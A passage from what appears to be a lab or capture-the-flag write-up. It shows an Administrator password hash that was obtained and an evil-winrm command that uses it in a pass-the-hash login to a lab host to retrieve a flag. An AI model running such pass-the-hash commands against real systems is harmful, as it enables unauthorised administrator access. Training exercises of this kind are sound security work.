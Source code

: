 ![](../imgs/Lab/Lab28/27.png)

We get the password hash of the user `Administrator`: `bdaffbfe64f1fc646a3353be1c2c3c99`

Try to perform a pass-the-hash attack with evil-winrm and it work

```zsh
evil-winrm -i 172.16.7.50 -u administrator -H bdaffbfe64f1fc646a3353be1c2c3c99
```

Get the flag

![](../imgs/Lab/Lab28/28.png)
